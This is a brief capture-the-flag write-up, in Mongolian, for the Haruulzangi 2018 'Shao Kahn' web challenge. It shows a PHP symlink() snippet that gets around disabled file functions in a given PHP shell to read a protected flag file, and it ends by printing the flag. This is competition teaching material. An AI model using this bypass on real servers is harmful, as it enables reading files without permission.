

# Haruulzangi 2018 Round 3 : Shao Kahn

**Category:** Web
**Points:** 1000
**Solves:** 1
**Description:**

>/tmp/shaokahnflag.php-ийг уншаад флагаа авааарай. Энэ их хэцүү байх болно.
>http://218.100.84.106:8060/

## Write-up
Бидэнд php-shell өгөгдсөн тул эхлээд жоохон туршилт хийж үзье. :)

phpinfo() функцээр шалгаж үзэхэд файлтай хандах ихэнх функц ашиглах боломжгүй байна.

Ингээд ашиглаж болох фунцк нь ***[PHP : symlink](http://php.net/manual/en/function.symlink.php)*** байгаа тул ашиглаад.. флагаа олж авъя.

~~~~
<?php
$target = '/tmp/shaokahnflag.php';
$link = 'some.php';
symlink($target, $link);
?>
~~~~

/some.php линкээр хандаж флагаа олж авна.

>flag `HZ{fastcg1pack3t.Really!!}`
